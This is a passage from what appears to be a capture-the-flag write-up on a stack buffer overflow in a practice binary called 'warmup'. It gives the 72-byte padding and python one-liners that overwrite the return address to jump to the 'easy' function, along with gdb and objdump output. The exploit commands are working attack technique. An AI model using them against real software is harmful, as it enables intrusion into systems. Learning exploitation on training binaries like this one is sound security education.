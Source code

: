 
- Common fact is that above `rbp` is the return address.
- So to overflow that we will have to pad 72 bytes.
- So giving it `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD` as the input and you can see that return address gets mangled up:

```sh
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x7f0044434241
```

## Exploitation

- Let's overwrite this return address to `\x0d\x06\x40\x00`.

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72 + b"\x0d\x06\x40")' | ./warmup
-Warm Up-
WOW:0x40060d
>Segmentation fault (core dumped)
```

- This fails because this is x64 binary, thus memory address is 64 bits long.
- Look at the `gdb` output of the same input:

```sh
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x7fff0040060d
```

- Because of that we need to extend our address to fit this space, so that it becomes `0x000000000040060d`.
- You can see it gets represented in `objdump` the way it really is:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ objdump -Mintel -d warmup | grep -A30 easy
000000000040060d <easy>:
  40060d:       55                      push   rbp
  40060e:       48 89 e5                mov    rbp,rsp
  400611:       bf 34 07 40 00          mov    edi,0x400734
```

- So trying to craft the exploit like this fails also:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/warmup$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72 + b"\x0d\x06\x40\x00\x00\x00\x00\x00\x00")'  | ./warmup
-Warm Up-
WOW:0x40060d
>Segmentation fault (core dumped)
```

- This exploit __doesn't really fail__, have a look at the `gdb` output when running it with `input.txt` (above exploit)

```sh
gef➤  r < input.txt
Breakpoint 3, 0x00000000004006a3 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdd40  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x0
$rcx   : 0x00007ffff7e1aaa0  →  0x00000000fbad2098
$rdx   : 0x1
$rsp   : 0x00007fffffffdd00  →  "0x40060d\n"
$rbp   : 0x00007fffffffdd80  →  0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x1
```